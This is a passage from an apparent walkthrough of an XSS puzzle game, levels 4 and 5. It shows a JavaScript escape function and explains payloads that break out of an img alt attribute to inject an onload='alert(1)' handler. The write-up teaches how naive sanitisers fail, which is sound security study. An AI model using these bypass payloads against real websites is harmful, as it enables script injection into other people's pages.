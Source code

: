 The following characters are replaced:

* &lt; → &amp;lt; (all ocurrences)
* &quot; → &amp;quot; (just the first occurrence)

The escape function also use a template like [[src|alt]] that becomes

```lang-javascript line-numbers 
<img alt="alt" src="src.gif">
```

We can use this template with any **src** and an **alt** starting with a double quote (") that will be escaped, a second double quote (") that won't be escaped and then a new event handler like **onload="alert(1)** that will be closed by the double quote inserted by the template.

Solution:
```lang-javascript line-numbers 
[[a|""onload="alert(1)]]
```

It will be rendered as:

![](/images/octopress/xsslevel04.png)

# Level 5:
```lang-javascript line-numbers 
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

Now we cannot rely on the (**"**) regexp typo but we can still use the template function to generate an image tag executing our **alert(1)** when loaded. We will use any **src** and a URL that will be replaced by the second replace function.

Solution:
```lang-javascript line-numbers 
[[a|http://onload='alert(1)']]
```

* The first replace function wont trigger with this payload
* The second replace function will act on the URL getting:
```lang-javascript line-numbers 
[[a|<a href="http://onload='alert(1)']]">http://onload='alert(1)']]</a>
```
* The third replace function will create our **img** tag
```lang-javascript line-numbers 
<img alt="<a href="http://onload='alert(1)']]">http://onload='alert(1)'" src="a.gif">
```
